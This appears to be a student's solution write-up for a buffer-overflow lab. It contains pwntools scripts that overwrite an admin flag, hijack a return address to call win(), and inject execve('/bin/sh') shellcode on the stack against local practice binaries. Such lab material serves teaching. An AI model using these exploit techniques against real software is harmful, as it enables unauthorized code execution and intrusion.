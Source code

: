 # Laborator 2

### Solution to [Q1]:
If I have a boolean `is_admin` and an input buffer that stores a name, and I input more characters than the buffer can hold, the overflow could overwrite the `is_admin` value in memory. This might set `is_admin` to `true`, potentially giving unauthorized admin access.

## Exercise 1
### Solution to [Q2]:
The `password` buffer is 8 characters long, but if we enter more than 8 characters (for example, `aaaaaaaa1`), the extra character (`1`) overflows the buffer and can overwrite the adjacent `is_admin` variable in memory. This sets `is_admin` to `1`, which the program interprets as granting admin access, bypassing the password check.

### Solution to [Q3]:
```
$ make ex1
$ echo -n 'aaaaaaaa1' > input
$ gdb -q
pwndbg> file ./bin/ex1
pwndbg> b main
pwndbg> run < input
pwndbg> n
pwndbg> n
pwndbg> x/10gx $rsp
```

```python
0x7fffffffdca0: 0x6161616161616161      0x0000000000000031
0x7fffffffdcb0: 0x00007fffffffdd50      0x00007ffff7dcf1ca
0x7fffffffdcc0: 0x00007fffffffdd00      0x00007fffffffddd8
0x7fffffffdcd0: 0x0000000100400040      0x0000000000401176
0x7fffffffdce0: 0x00007fffffffddd8      0x9de42ea233c29359
```

At address `0x7fffffffdca0`, we see the `password` buffer containing `0x6161616161616161` (which represents "aaaaaaaa"). In the next 8 bytes, at `0x7fffffffdca8`, we find `0x0000000000000031`, which corresponds to `is_admin`. This has been modified to a non-zero value (`1`), indicating that our overflow was successful.

## Exercise 2
### Solution to [Q4]:
```python
#!/usr/bin/env python3

from pwn import *

target = process("./bin/ex2")

payload = b"A" * 8 + p64(0xDEADBEEF)
print(payload)

target.send(payload)
target.interactive()
```

```
[+] Starting local process './bin/ex2': pid 962
b'AAAAAAAA\xef\xbe\xad\xde'
[*] Switching to interactive mode
```

```
$ echo -ne 'AAAAAAAA\xef\xbe\xad\xde' | ./bin/ex2
Access granted!
```

## Exercise 3
### Solution to [Q5]:
```python
from pwn import *
import os

context.binary = './bin/ex3'
pattern = cyclic(100)
p = process('./bin/ex3')
p.sendline(pattern)
p.wait()
core_path = f"/tmp/core.{os.path.basename(context.binary.path)}.{p.pid}.11"
core = Core(core_path)
crash_addr = core.fault_addr

offset = cyclic_find(crash_addr)
print("Offset: ", offset)
```
```
Offset:  56
```

```
$ gdb ./bin/ex3
pwndbg> p win
$1 = {int ()} 0x401156 <win>
```

```python
from pwn import *

exe = './bin/ex3'
p = process(exe)

win_addr = p64(0x401156)
padding = b'A' * 56
payload = padding + win_addr

p.sendline(payload)
p.interactive()
```

## Exercise 4
### Solution to [Q6]:
```c
int execve(const char *pathname, char *const _Nullable argv[], char *const _Nullable envp[]);
```

First argument is a `const char`.

### Solution to [Q7]:
We find the address of `/bin/sh` at runtime:
```python
jmp get_binsh       

start:
    pop rdi         
    xor rsi, rsi    
    xor rdx, rdx    
    mov rax, 59         # 59 is the linux system call for execve
    syscall

get_binsh:
    call start          # pushes the string onto the stack
    .string "/bin/sh"   
```

```python
#!/usr/bin/env python3

from pwn import *
import os

context.update(arch='amd64', os='linux')
context.binary = './bin/ex4'
target = process('./bin/ex4')

shellcode = asm('''
    jmp get_binsh
start:
    pop rdi
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 59
    syscall
get_binsh:
    call start
    .string "/bin/sh"
''')

# find the offset using the script from [Q5]
padding = b'A' * (264 - len(shellcode))
payload = padding + shellcode

target.recvuntil(b'Buffer at ')
buffer_address = int(target.recvline().strip(), 16)

payload += p64(buffer_address + len(padding))

target.send(payload)
target.interactive()
```

## Extra Challenges
### Solution to #1 Exploitation prodigy:
```python
#!/usr/bin/env python3

from pwn import *

target = process('./bin/bonus')

payload = b'A' * 40 + p64(0x401156)  + p64(0x401173)    # 0x401156 = address of dothidden(); 0x401173 = address of win()

target.send(payload)
target.interactive()
```
